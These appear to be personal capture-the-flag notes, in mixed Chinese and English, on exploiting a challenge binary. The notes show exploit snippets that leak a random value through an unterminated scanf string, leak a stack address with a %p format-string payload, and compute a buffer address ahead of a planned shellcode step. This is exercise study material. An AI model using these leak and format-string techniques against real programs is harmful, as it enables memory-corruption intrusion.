 ## 3.1 LEAK RAND 
因为scanf("%64s", username);
没有null terminate 所以如果我们刚刚好 64个 没有\x00
就会带出下一个byte which continue printing until it finds a `\x00`

所以 b'a' * 64 可以看到 多出一个 ) 
![[Pasted image 20250715004319.png]]

问题来了 怎样转成 int 
-> Python’s way of **getting the first byte as an integer**.
`guess = rc(1)[0]` 就ok 了 ????
第一次知道

```python
# dbgstart()
# p = b'a'*0x20
# leak random number  
sla("> ",b'a'*64)
ru(b'a'*64)
guess = rc(1)[0]
print("guess here >>",guess)
sla("honks?", str(guess).encode())
```

## 3.2 FORMAT STRING
what position to format string ????
为什么有 FS
![[Pasted image 20250715004658.png]]
这个很搞笑 我直接 %p
然后就有
![[Pasted image 20250715004719.png]]
然后就 gdb 找 这个是什么 tele xxxx
他是一个stack leak 没有什么用
这种时候 只能靠 offset 了
先把他变美美
```python
# format string
payload = b'%p %p %p %p %p %p %p %p'
sla("again?",payload)
ru("wow ")

# leak info
stack_leak = bhex(rc(14))
print("leak >>>", hex(stack_leak))
# dbg()
```

如果有leak 要想的是 ret2libc or ret2shellcode (NO NX)

ROP 我不会也找不到 libc 所以就算 shellcode
## 3.3 FIND BUFFER ADDRESS
how to find buffer address
开 dbgstart() 定位read 然后 send aaaabbbb
![[Pasted image 20250715005607.png]]
算offset 罢了 leak - buf = 0x150, stack leak - 0x150 就是 buf 了
```python
# leak info
stack_leak = bhex(rc(14))
print("leak >>>", hex(stack_leak))
# dbg()
sla("world?",b'aaaabbbb')
buf = 0x7ffd13969b20
```